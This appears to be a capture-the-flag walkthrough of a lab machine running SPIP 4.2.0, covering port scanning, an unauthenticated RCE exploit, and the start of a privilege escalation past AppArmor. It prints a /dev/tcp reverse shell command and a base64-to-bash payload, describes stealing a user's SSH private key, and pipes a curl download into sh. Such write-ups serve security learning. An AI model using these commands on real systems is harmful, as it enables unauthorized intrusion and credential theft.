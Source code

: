 # Publisher

### Publisher

Initial scan: 

    nmap -n -Pn -v --min-rate=1000 -p- 10.10.99.134                        
    Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-09-28 15:29 EDT
    Initiating Connect Scan at 15:29
    Scanning 10.10.99.134 [65535 ports]
    Discovered open port 80/tcp on 10.10.99.134
    Discovered open port 22/tcp on 10.10.99.134
    Completed Connect Scan at 15:30, 35.15s elapsed (65535 total ports)
    Nmap scan report for 10.10.99.134
    Host is up (0.066s latency).
    Not shown: 65533 closed tcp ports (conn-refused)
    PORT   STATE SERVICE
    22/tcp open  ssh
    80/tcp open  http
    
The website seems to be a magazine about SPIP, which is a content management system:<br />
![image](https://github.com/user-attachments/assets/3585d3d3-4012-498c-8ef6-d19183aa252c)<br />
Directory enumeration gives some results:<br />
![image](https://github.com/user-attachments/assets/968f056c-f9f0-40df-a0da-9edf2a8d864a)<br />
Moving to /spip, wappalyzer shows us that the server is running SPIP 4.2.0.<br />
![image](https://github.com/user-attachments/assets/53ff1363-7149-4f70-89e5-970d7776838e)<br />
Searching online I found that this version is vulnerable to unauthenticated RCE. The code for the exploit can be found in `exploit.py` of this folder. To run it, first base64 encode the following string `sh -i >& /dev/tcp/10.11.85.53/4444 0>&1`. The payload should look something like `echo base64string | base64 -d | bash`.<br />
So set up a netcat listener and run the following:<br />
![image](https://github.com/user-attachments/assets/9ba6e70e-2f29-4664-96fc-4f65c4523afe)<br />
The `think` user has a .ssh folder from which we can copy the private key. <br />
![image](https://github.com/user-attachments/assets/8d7a5cdc-ee53-45b0-b6ca-4af8eb096c7a)<br />
So, create an `id_rsa` file containing the private key, change it's permissions so that it can be used to access the machine with `chmod 600 id_rsa`. Finally log in with `ssh -i id_rsa think@target_IP`.<br />
![image](https://github.com/user-attachments/assets/efa2fd4e-2e40-4a34-b2b2-b0a2b20ef370)<br />
Very good, now let's see if we can get root aswell. 
The target machine doesn't have Internet access. However I transfered linpeas from my machine to the target using curl. On the attackbox where linpeas is located, run `python3 -m http.server 80`, on the target run `curl http://machine_IP/linpeas.sh | sh`. <br />
![image](https://github.com/user-attachments/assets/79156063-6f23-4360-9e96-81a5d88801a5)<br />
The very first thing I see is that app armor is being used to harden the system. This is why I had some troubles running the reverse shell before. This user is not able to write files anywhere or access specific folders that are usually accessible without app armor. <br />
The `think` user has /usr/sbin/ash as shell, which we can see is restricted by apparmor. For example when I tried to tranfer linpeas inside /tmp, it didn't work and this is why. <br />
The configuration of apparmor for the "ash" shell is the following:<br />
![image](https://github.com/user-attachments/assets/a1200f6d-a823-403c-86e1-22e304809591)<br />
![image](https://github.com/user-attachments/assets/b34e1773-e569-4055-9ec3-10a4fd8c3f0b)<br />
![image](https://github.com/user-attachments/assets/2502575c-3574-4180-853f-5bcc57a7c352)<br />


